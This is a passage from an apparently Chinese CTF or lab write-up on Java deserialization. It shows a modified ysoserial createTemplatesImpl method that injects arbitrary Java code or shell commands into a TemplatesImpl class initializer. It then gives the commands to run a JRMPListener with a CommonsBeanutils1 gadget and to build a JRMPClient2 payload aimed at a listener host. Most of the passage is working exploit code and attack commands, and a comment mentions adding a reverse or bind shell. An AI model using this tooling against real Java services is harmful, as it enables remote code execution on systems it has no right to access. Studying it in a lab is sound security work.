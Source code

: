 然后我们尝试去修改ysoserial/payloads/util/Gadgets.java中createTemplatesImpl方法如下：  
```
// createTemplatesImpl修改版，支持代码执行
public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
            throws Exception {
        final T templates = tplClass.newInstance();

        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
//        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
//            command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
//            "\");";
        String cmd="";
        //如果以code:开头，认为是代码，否则认为是命令
        if(!command.startsWith("code:")){
            cmd = "java.lang.Runtime.getRuntime().exec(\"" +
            command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
            "\");";
        }
        else{
            System.err.println("Java Code Mode:"+command.substring(5));//使用stderr输出，防止影响payload的输出
            cmd = command.substring(5);
        }
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);

        final byte[] classBytes = clazz.toBytecode();

        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
            classBytes, ClassFiles.classAsBytes(Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }
```
此时，我们的payload已经可以支持代码执行了。  
在这里，我是直接用本地的题目环境进行调试，尝试打印了aaa,操作如下。  
修改替换{{内容}}  
开启监听端口  
建议采用ceye的dnslog查看  
执行时合并为一行，为了好看，我换了下行  
```
java -cp ysoserial-5am3.jar ysoserial.exploit.JRMPListener 8099 
    CommonsBeanutils1 'code:System.out.printld("aaa");'
```
生成链接JRMPListener的payload  
ip端口那里填写运行第4行脚本的主机地址端口  
`java -jar ./ysoserial-5am3.jar JRMPClient2 {{10.0.0.1:8099}} | base64`  
